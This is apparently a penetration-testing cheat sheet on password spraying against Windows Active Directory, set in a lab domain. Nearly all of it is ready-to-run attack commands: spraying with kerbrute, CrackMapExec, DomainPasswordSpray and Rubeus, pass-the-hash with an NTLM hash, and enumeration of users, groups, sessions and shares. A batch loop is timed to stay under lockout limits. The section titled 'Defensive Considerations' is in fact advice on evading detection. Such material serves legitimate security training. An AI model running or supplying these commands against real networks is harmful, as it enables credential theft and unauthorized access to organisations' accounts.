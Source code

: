 # Password Spraying - Windows

## Password Spraying - Windows

Password spraying is a technique that attempts to access multiple accounts with a few commonly used passwords, helping avoid account lockouts while attempting to discover valid credentials.

### Internal Password Spraying - from Linux

#### Using Kerbrute for Password Spraying

Kerbrute uses Kerberos pre-authentication to perform password spraying with minimal risk of account lockouts.

```bash
# Basic password spray against a domain
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1

# With delay between attempts
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 -t 1 --delay 5 valid_users.txt Welcome1

# Specify specific domain controller
kerbrute passwordspray -d inlanefreight.local --dc dc01.inlanefreight.local valid_users.txt Welcome1
```

#### Using CrackMapExec (CME)

CrackMapExec is a versatile tool for testing credentials against multiple targets.

```bash
# Basic SMB password spray
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123

# Filter successful logins
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

# Test against specific domain
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 -d INLANEFREIGHT.LOCAL

# Test against subnet
sudo crackmapexec smb 172.16.5.0/24 -u valid_users.txt -p Password123

# Using local authentication
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

#### Validating Credentials with CrackMapExec

```bash
# Test a single credential pair
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

# Test against multiple protocols
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
sudo crackmapexec winrm 172.16.5.5 -u avazquez -p Password123
sudo crackmapexec ssh 172.16.5.5 -u avazquez -p Password123
```

### Internal Password Spraying - from Windows

#### Using DomainPasswordSpray.ps1

DomainPasswordSpray is a PowerShell script for internal domain password spraying.

```powershell
# Import the module
Import-Module .\DomainPasswordSpray.ps1

# Basic password spray
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

# With specific user list
Invoke-DomainPasswordSpray -UserList users.txt -Password Welcome1 -OutFile spray_success

# With specific domain
Invoke-DomainPasswordSpray -Password Welcome1 -Domain inlanefreight.local -OutFile spray_success

# Perform a safe spray (check lockout policy first)
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -SafetyMargin 5
```

#### Using Rubeus

Rubeus can perform Kerberos-based password spraying.

```powershell
# Basic password spray
.\Rubeus.exe brute /password:Welcome1 /outfile:spray_results.txt

# With specific user list
.\Rubeus.exe brute /users:users.txt /password:Welcome1 /outfile:spray_results.txt

# With specific domain
.\Rubeus.exe brute /password:Welcome1 /domain:inlanefreight.local /outfile:spray_results.txt
```

### Enumeration with Valid Credentials

#### Domain User Enumeration with CME

```bash
# List all domain users and their properties
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users

# Get specific user info
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users | grep "Administrator"

# Check for users with badPwdCount=0
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users | grep "badPwdCount=0"
```

#### Domain Group Enumeration with CME

```bash
# List all domain groups
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups

# Get specific group info
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups | grep "Domain Admins"

# Get group members
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups --full
```

#### Session and Logged On User Enumeration

```bash
# List logged on users on a specific host
sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users

# List logged on users across a subnet
sudo crackmapexec smb 172.16.5.0/24 -u forend -p Klmcargo2 --loggedon-users
```

#### Share Enumeration

```bash
# List available shares on a host
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares

# Recursively list share contents with spider_plus
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'

# Using SMBMap to check access
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5

# Recursive listing with SMBMap
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares'
```

### Password Spraying Strategy

#### Determining Lockout Policy

```powershell
# Using PowerView
Get-DomainPolicy | Select-Object -ExpandProperty SystemAccess

# Using net accounts (cmd)
net accounts /domain
```

```bash
# Using CME
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --pass-pol
```

#### Building Target User Lists

```bash
# Extract valid user list with CME
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users | grep "badPwdCount=" | awk '{print $4}' > valid_users.txt

# Extract with ldapsearch
ldapsearch -x -h 172.16.5.5 -D "forend@inlanefreight.local" -w "Klmcargo2" -b "DC=inlanefreight,DC=local" "(&(objectClass=user)(objectCategory=person))" sAMAccountName | grep sAMAccountName | awk '{print $2}' > valid_users.txt
```

#### Batch Processing

```bash
# Divide user list into batches to avoid lockouts
split -l 10 valid_users.txt batch_

# Process each batch with delay between batches
for batch in batch_*; do
  sudo crackmapexec smb 172.16.5.5 -u $batch -p Welcome1
  echo "Waiting 30 minutes before next batch..."
  sleep 1800
done
```

### Defensive Considerations

1. **Account Lockout Policy**: Always check the domain's lockout policy before spraying
2. **Avoid Service Accounts**: Target only user accounts, avoiding service accounts that may trigger alerts
3. **Use Minimal Attempts**: Try only the most likely passwords to minimize failed login events
4. **Timing**: Space out attempts to stay under the lockout threshold
5. **Monitor for Lockouts**: Regularly check if any accounts are getting close to lockout
